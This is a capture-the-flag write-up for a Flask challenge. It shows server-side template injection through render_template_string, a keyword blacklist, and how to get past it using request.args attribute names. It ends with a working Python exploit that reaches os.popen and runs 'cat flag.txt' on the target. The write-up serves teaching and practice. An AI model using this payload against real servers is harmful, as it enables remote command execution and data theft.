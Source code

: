 # Build-A-Website | Points: 100 | Solves: 247

I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask. 

Attachments: 
- https://imaginaryctf.org/r/3ACF-app.py
- http://build-a-website.chal.imaginaryctf.org/

#

When visiting the site we are presented with a short descriptive text and an input field where we are "supposed" to input some HTML code. We are however obviously going to input other things than just plain old HTML. 

Taking a look at <span>app.py</span> we find the following interesting piece of code:
```python
@app.route('/site')
def site():
    content = b64decode(request.args['content']).decode()
    #prevent xss
    blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
    for word in blacklist:
        if word in content:
            # this should scare them away
            content = "*** stack smashing detected ***: python3 terminated"
    csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
    return render_template_string(csp + content)
```

Whatever we write into the "content" variable will have to pass the blacklist and the CSP. The words "las", "bas" and "bal" look a little weird but practically they will stop us from accessing attributes like ```__class__```, ```__globals__``` or ```__bases__```. Or atleast we will have to get a bit more creative to do so. At the end of this writeup I will discuss how to bypass the blacklist but let's first discuss what our objective is. 

There probably exists a file like "flag.txt" and our end goal will be to read it. How can we do that? Either we take the pure python route and use open() or we attempt to get a shell and use cat. Lets investigate how we might access those normally, without a blacklist. As previously mentioned we are given an input field and a good thing to try out is to check for flask injections (which will obviously work since we have the source code but nevertheless a good thing to try in a blackbox scenario). We can input ```{{1+1}}``` and proudly observe the resulting site content is "2". Furthermore we can investigate some global variables available in Flask, specifically we will use "config" and "request". Remember that we wish to read a file and in this case lets choose to try to get a shell. For that we will need to access the os module to then in turn call ```os.popen("cat flag.txt").read()```. How can we do that? The answer is by traversing Pythons object hierarchy! 

Let's again imagine there is no blacklist. Inputing ```{{config.__class__}}``` we can see the class that config belongs to is ```dict```. From here we have a couple options. The os module can sometimes be access via the attribute ```__globals__```. We can try something like ```{{config.__class__.__init__.__globals__}}``` but this gets us nothing. Honestly I don't know when and why this does or doesn't work but what I do know is sometimes the os module can be accessed this way and even more importantly there are other ways to access it. For example we can import it via the function ```load_module``` from the class ```_frozen_importlib.BuiltinImporter```. This is a direct subclass of the ```object``` class, the root class of all classes in Python. We can go down in the class hierarchy via the ```__subclass__``` function and we can just as easily go up the hierarchy via the function ```mro```. A few details remain like the fact that when traversing the object hierarchy we sometimes have to deal with lists which have to be indexed using numbers and the exact order differs from system to system. Nevertheless our exploit to read flag.txt looks like this: 

```python
config.__class__.mro()[1].__subclasses__()[84].load_module("os").popen("cat flag.txt").read()
```

Great! But so far I have said things like "imagine there is no blacklist" all the while making claims about some code working and some not. To bypass the blacklist we can use a nice trick. In Python we have two options when accessing attributes of a class, either by ```class.someAttribute``` or ```class["someAttribute"]```. Furthermore notice the blacklist is only applied to the "content" parameter. We are otherwise free to pass whatever content we want to other parameters which we can exploit. Remember that Flask has a global variable "request", through which we can access get-parameters. Aha! Finally our exploit is finished:

```python
import requests
from base64 import b64encode
params = {
    "a" : "__class__", 
    "b" : "__subclasses__", 
    "content" : b64encode(b"{{config[request.args.a].mro()[1][request.args.b]()[84].load_module('os').popen('cat flag.txt').read()}}")
}
r = requests.get("https://build-a-website.chal.imaginaryctf.org/site", params=params)
print(r.text)
```

This will expand to:

```python
config["__class__"].mro()[1]["__subclasses__"]()[84].load_module("os").popen("cat flag.txt").read()
```

Which gets us the flag: ictf{:rooYay:\_:rooPOG:\_:rooHappy:\_:rooooooooooooooooooooooooooo:}
